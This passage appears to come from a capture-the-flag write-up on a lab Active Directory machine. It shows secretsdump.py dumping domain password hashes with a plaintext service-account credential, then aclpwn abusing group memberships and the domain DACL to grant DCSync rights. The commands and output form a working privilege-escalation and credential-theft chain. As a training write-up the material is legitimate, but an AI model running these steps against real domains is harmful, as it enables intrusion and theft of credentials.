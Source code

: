 

I can also run `secretsdump.py` and get hashes:



    root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    ...[snip]...
    [*] Cleaning up... 



### Alternative Tool: Aclpwn

There's a tool that will automate this exploitation,
[aclpwn](https://github.com/fox-it/aclpwn.py). When I run it, I pass it
the user I want to start with, and what I want to get (domain access),
and it looks for paths, asks me which path to use, and then run it:



    root@kali# aclpwn -f svc-alfresco -t htb.local --domain htb.local --server 10.10.10.161
    Please supply the password or LM:NTLM hashes of the account you are escalating from: 
    [!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
    [-] Invalid path, skipping
    [+] Path found!
    Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
    [!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
    [-] Invalid path, skipping
    [+] Path found!
    Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
    Please choose a path [0-1] 1
    [-] Memberof -> continue
    [-] Memberof -> continue
    [-] Memberof -> continue
    [-] Adding user SVC-ALFRESCO to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
    [+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
    [-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
    [+] Re-bind successful
    [-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
    [+] Dacl modification successful
    [+] Finished running tasks
    [+] Saved restore state to aclpwn-20191019-215508.restore
